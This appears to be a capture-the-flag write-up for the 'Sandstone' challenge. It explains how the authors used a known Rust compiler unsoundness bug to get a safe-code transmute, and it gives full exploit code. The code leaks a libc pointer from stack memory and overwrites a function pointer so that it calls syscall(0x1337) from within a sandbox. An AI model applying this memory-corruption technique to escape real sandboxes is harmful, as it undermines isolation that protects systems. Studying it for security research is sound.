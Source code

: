 # Sandstone

*Sandstone* is a problem about writing a [Rust](https://www.rust-lang.org/) code that invokes `syscall(0x1337)` in a sandboxed environment. Usually, the main goal of this kind of problems is finding a vulnerability in the sandbox logic, but this problem is not about that. Rust is a memory-safe language by default. It allows an additional unsafe operations, such as calling foreign functions or dereferencing a raw pointer, only in an `unsafe {}` block, which is prohibited in this problem.

We first observed that the problem turns on an optional feature called `nll` in nightly Rust, which stands for Non Lexical Lifetime (it is a Rust specific term, and it doesn't matter if you don't know what it means). We thought there must be a unsoundness hole in this feature, which will allow us to write `syscall(0x1337)` in safe Rust. Therefore, we searched for issues with [NLL-sound](https://github.com/rust-lang/rust/labels/NLL-sound) tag in the Rust repository. The description for the tag is `Working towards the "invalid code does not compile" goal` which seems like a perfect match for our situation. However, we didn't find anything that looks easily applicable to this problem.

Then, we changed our target to [I-unsound 💥](https://github.com/rust-lang/rust/labels/I-unsound 💥) tag and found the issue [Coherence can be bypassed by an indirect impl for a trait object #57893](https://github.com/rust-lang/rust/issues/57893). There was [a comment](https://github.com/rust-lang/rust/issues/57893#issuecomment-500250283) which includes a [std::mem::transmute](https://doc.rust-lang.org/std/mem/fn.transmute.html) implementation in Safe Rust, which allows unrestricted conversion between any Rust types.

The `transmute()` implementation allowed us to search through the stack memory for a libc pointer. After that, we calculated the address of the syscall funcion from the leaked pointer. Finally, we overwrote a safe function pointer with syscall address and called it with an argument 0x1337.

This is our main exploit code:

```rust
const PTR_SIZE: usize = std::mem::size_of::<usize>();

fn read_val(addr: usize) -> usize {
    *transmute::<*mut usize, &mut usize>(addr as *mut usize)
}

fn find_index(base_ptr: usize) -> usize {
    let pattern = [0, 0, 1, 0, 1, 1, 1, 1, 0, 0, 1, 1];
    let mut start_index = 0;
    loop {
        let start_ptr = base_ptr + PTR_SIZE * start_index;
        if (0..pattern.len()).into_iter().all(|index| {
            let val = read_val(start_ptr + PTR_SIZE * index);
            if pattern[index] == 0 {
                val == 0
            } else {
                val > 0
            }
        }) {
            let target_index = start_index + 11;
            let target_ptr = base_ptr + PTR_SIZE * target_index;
            println!("{:03} 0x{:016x} - {:016x}", target_index, target_ptr, read_val(target_ptr));
            return target_index;
        }
        start_index += 1;
    }
}

fn fake_syscall(arg: usize) {
}

fn update(ptr: &mut fn(usize), val: usize) {
    let ptr_ref = transmute::<_, &mut usize>(ptr);
    *ptr_ref = val;
}

fn poc() {
    let stack = 0xabcdef0123456789usize;
    let mut ptr = (&stack as *const usize) as usize;
    println!("Current stack pointer: 0x{:016x}", ptr);

    let count = 200;

    ptr -= PTR_SIZE * count;
    let base_ptr = ptr;

    for i in 0..count {
        println!("{:03} 0x{:016x} - {:016x}", i, ptr, read_val(ptr));
        ptr += PTR_SIZE;
    }

    let lib_target_index = find_index(base_ptr);
    let lib_base = read_val(base_ptr + PTR_SIZE * lib_target_index) - 0x151e0;
    println!("lib{} base addr: 0x{:016x}", 'c', lib_base);

    let syscall_addr = lib_base + 0x1172d0;
    println!("lib{} syscall addr: 0x{:016x}", 'c', syscall_addr);

    let mut syscall_ptr: fn(usize) = fake_syscall;
    update(&mut syscall_ptr, syscall_addr);
    syscall_ptr(0x1337);

    println!("Please give me the flag");
    loop {
    }
}
```

According to the flag, the intended solution was to use [Pattern guard can consume value that is being matched #31287](https://github.com/rust-lang/rust/issues/31287).